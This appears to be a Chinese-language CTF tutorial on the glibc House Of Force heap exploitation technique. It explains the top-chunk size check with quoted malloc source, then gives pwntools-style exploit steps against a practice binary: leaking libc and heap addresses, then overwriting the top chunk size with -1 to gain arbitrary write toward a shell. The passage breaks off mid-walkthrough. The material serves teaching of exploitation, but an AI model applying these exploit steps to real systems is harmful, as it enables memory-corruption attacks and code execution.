


## 介绍House Of Force

House Of Force属于House Of XXX系列，House Of XXX指的是2004年一篇名为《The Malloc Maleficarum-Glibc Malloc Exploitation Techniques》的文章中提出的一系列针对glibc漏洞的利用方法。
但是由于年代久远《The Malloc Maleficarum》中提出的大多数利用在今天都不能奏效，我们现在所指的House Of XXX利用相比2004年文章中写的已有较大的不同。但是《The Malloc Maleficarum》依然是一篇推荐阅读的文章，你可以在这里读到它的原文：
https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt

## House Of Force原理

House Of Force是一种堆溢出的利用方法，当然能够通过House Of Force进行利用的可能不只是堆溢出漏洞。如果一个堆(heap based)漏洞想要通过House Of Force方法进行利用，需要以下条件：
	
	1.用户能够以溢出等方式控制到top chunk的size域
	2.用户能够自由的控制堆分配尺寸的大小

House Of Force产生的原因在于glibc对top chunk的处理，进行堆分配时会从top chunk中分割出相应的大小作为堆块的空间，因此top chunk的位置会发生上下浮动以适应堆内存分配和释放。

House Of Force的利用思想可以概括为一句话：

    当使用top chunk分配堆块的size值是由用户控制的任意值时会发生什么？
	答案是，可以使得top chunk移动到我们想要达到的任何位置，这就相当于一次任意地址写。
	比如可以移动到free@got将free@got改写为system

然而在glibc中，会对用户请求的大小和top chunk现有的size进行验证

	// 获取当前的top chunk，并计算其对应的大小
	victim = av->top;
	size   = chunksize(victim);
	// 如果在分割之后，其大小仍然满足chunk的最小大小，那么就可以直接进行分割。
	if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
	{
	    remainder_size = size - nb;
	    remainder      = chunk_at_offset(victim, nb);
	    av->top        = remainder;
	    set_head(victim, nb | PREV_INUSE |
	            (av != &main_arena ? NON_MAIN_ARENA : 0));
	    set_head(remainder, remainder_size | PREV_INUSE);
	 
	    check_malloced_chunk(av, victim, nb);
	    void *p = chunk2mem(victim);
	    alloc_perturb(p, bytes);
	    return p;
	}

然而，如果可以篡改size的大小为一个很大值，就可以轻松的通过这个验证，这也就是我们前面说的需要一个能够控制top chunk size域的漏洞
	
	(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)

一般的做法是把top chunk的size改为-1，因为在进行比较时会把size转换成无符号数(如上)，因此-1会解释成为一个大数，就可以使得所有64位值都能通过验证。

	remainder      = chunk_at_offset(victim, nb);
	av->top        = remainder;
	 
	/* Treat space at ptr + offset as a chunk */
	##define chunk_at_offset(p, s) ((mchunkptr)(((char *) (p)) + (s)))

之后这里会把top指针更新，接下来的堆块就会分配到这个位置，用户只要控制了这个指针就相当于实现任意地址写任意址(write-anything-anywhere)。

## 一个简单的列子-DBAPP

程序功能在上一个double-free中已经说过了。

对于House Of Force利用的两个条件

	1.用户能够以溢出等方式控制到top chunk的size域
	2.用户能够自由的控制堆分配尺寸的大小

都符合，下面我们一步一步get shell.

1.泄露libc基址及计算关键符号地址

	Add(0x100,'/bin/sh\x00') #0
	Add(0x100,'AAAA') #1
	Add(0x100,'AAAA') #2

	Delete(1)

	Show()

	io.recvuntil('1 : ')
	data = u64(io.recv(6).ljust(8,'\x00'))
	success('data:'+hex(data))

	libc_base = data - malloc_hook_libc - (0x7f43a522ab78 - 0x7f43a522ab10) 

	system_addr = system_libc + libc_base
	success('system_addr:'+hex(system_addr))

2.泄露堆地址并计算top_chunk地址

	Add(0x20,'AAAA') #4
	Add(0x20,'AAAA') #5
	Delete(4)
	Delete(5)

	Show()

	io.recvuntil('5 : ')
	data = u64(io.recv(3).ljust(8,'\x00'))
	success('data:'+hex(data))
	top_chunk = data + (0x6b83b0 - 0x6b8350)

3.改写top_chunk的size为-1(0xffffffffffffffff)

	Add(0x100,'AAAA') #8
	payload = 'a'*0x100
	payload += p64(0) + p64(0xffffffffffffffff)

	Change(8,len(payload) + 1,payload)

改写前：

改写后：

(两次堆地址不一致是因为我运行了两次脚本，由于地址随机化，堆地址发生了变化）

注意此时的top chunk位置，当我们进行下一次分配的时候就会更改top chunk的位置到我们想要的地方，我们将让top chunk的位置移动到free_hook的位置

先计算一下当前top chunk位置与free@got位置的偏移

